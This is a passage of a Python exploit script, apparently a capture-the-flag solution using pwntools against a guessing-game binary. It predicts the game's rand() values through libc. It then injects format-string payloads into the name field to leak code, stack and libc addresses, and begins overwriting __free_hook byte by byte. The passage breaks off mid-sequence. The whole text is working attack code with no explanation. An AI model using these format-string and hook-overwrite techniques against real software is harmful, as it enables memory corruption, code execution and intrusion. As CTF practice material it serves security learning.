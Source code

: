 ```python
	gdb.attach(cn,a)
	if a == '':
		raw_input()

dll = CDLL("/lib/x86_64-linux-gnu/libc.so.6")


def play(Len,name):
	cn.recvuntil('(E)xit\n')
	cn.sendline("P")
	cn.recvuntil('Come on boy!Guess what I write:')
	out=''
	for i in range(24):
		out+=chr(dll.rand() % 26 + ord('A'))
	print out
	cn.sendline(out)

	cn.recvuntil('Input your name length:')
	cn.sendline(str(Len))
	cn.recvuntil('Input your name:')
	cn.sendline(name)

	return out

def show_rank():
	cn.recvuntil('(E)xit\n')
	cn.sendline("S")

def delete(idx):
	cn.recvuntil('(E)xit\n')
	cn.sendline("D")
	cn.recvuntil('Input index:')
	cn.sendline(str(idx))
	cn.recvuntil('Input Cookie:')
	cn.sendline(pwd[idx])

pwd=['a']*10

pwd[0] = play(120,"%9$p*%8$p*%13$p*")#+6
show_rank()
cn.recvuntil('0:')
code_base = int(cn.recvuntil('*')[:-1],16)-0x18d5
success('code_base: '+hex(code_base))
stack = int(cn.recvuntil('*')[:-1],16)-0x20 # rbp
success('stack: '+hex(stack))
libc_base = int(cn.recvuntil('*')[:-1],16)-libc.sym['__libc_start_main']-240
success('libc_base: '+hex(libc_base))

freehook = libc_base+libc.sym['__free_hook']

pay = '%'+str((stack+0xb0)&0xffff)+'c%'+str(9+6)+'$hn'
pwd[1] = play(120,pay)
pay = '%'+str((freehook)&0xff)+'c%'+str(0x23+6)+'$hhn'
pwd[2] = play(120,pay)

pay = '%'+str((stack+0xb1)&0xff)+'c%'+str(9+6)+'$hhn'
pwd[3] = play(120,pay)
pay = '%'+str(((freehook>>8))&0xff)+'c%'+str(0x23+6)+'$hhn'
pwd[4] = play(120,pay)

pay = '%'+str((stack+0xb2)&0xff)+'c%'+str(9+6)+'$hhn'
pwd[5] = play(120,pay)
pay = '%'+str(((freehook>>16))&0xff)+'c%'+str(0x23+6)+'$hhn'
```